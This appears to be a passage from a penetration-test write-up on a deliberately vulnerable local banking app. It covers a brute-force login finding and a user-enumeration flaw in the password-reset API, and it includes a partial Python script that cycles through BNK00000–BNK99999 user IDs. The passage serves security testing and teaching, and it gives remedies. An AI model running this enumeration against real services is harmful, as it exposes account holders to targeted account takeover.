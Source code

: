 When I executed the script against the local Dockerized instance of the application, it quickly identified the correct password for the account within seconds. The server returned a valid response containing an authentication token, confirming that no account lockout or login attempt restrictions were in place. This validated that the authentication mechanism is vulnerable to brute-force attacks and exposes the system to credential stuffing or automated login attempts.

![](/Screenshots/unsafebank//pent/brute.png)

**Vulnerability Score:**  
This flaw rates around **CVSS 7.5 (High)** due to easy remote exploitation with no rate limiting or account lockout, allowing attackers to guess passwords rapidly.

**Remedy:**  
Implement rate limiting and temporary account lockouts after multiple failed attempts. Add CAPTCHA challenges and consider multi-factor authentication to prevent automated brute-force attacks. Also, enforce strong password policies and monitor login attempts for suspicious activity.

---
### 2. Users Enumeration:
Moving on to the password reset functionality exposed at `http://localhost:80/api/password/forgot`. The application leaks information about valid users based on the content of the response. Specifically, when submitting a request with a nonexistent `userid`, the server consistently returns a structured failure message: `"status": "Failed", "status_code": "PSW002", "message": "User not registered"`. However, when a valid user ID is submitted, the response differs, typically by returning an "OTP created" message. Combined with the absence of rate limiting, this response discrepancy allows for efficient and automated user enumeration.

To exploit this, I crafted a Python script to systematically send POST requests using user IDs in the format `BNK00000` through `BNK99999`, mimicking a 5-digit PIN scheme commonly used in financial applications. The request body adhered to the expected JSON structure, and each attempt was evaluated based on whether the response matched the known "User not registered" failure pattern. Any deviation was interpreted as a likely indication that the `BNK` ID exists in the application's database.

```python
import requests
import json

url = "http://localhost:80/api/password/forgot"
headers = {"Content-Type": "application/json"}

# Signature "not found" response
FAIL_SIGNATURE = {
    "status": "Failed",
    "status_code": "PSW002",
    "message": "User not registered"
}

results = []

for i in range(100000):  # 00000 to 99999
    bnk_id = f"BNK{i:05d}"
    payload = {
        "requestBody": {
            "timestamp": "325553",
            "device": {
                "deviceid": "UHDGGF735SVHFVSX",
                "os": "ios",
                "host": "lucideustech.com"
            },
            "data": {
                "userid": bnk_id,
                "otp_type": "4"
            }
        }
    }
```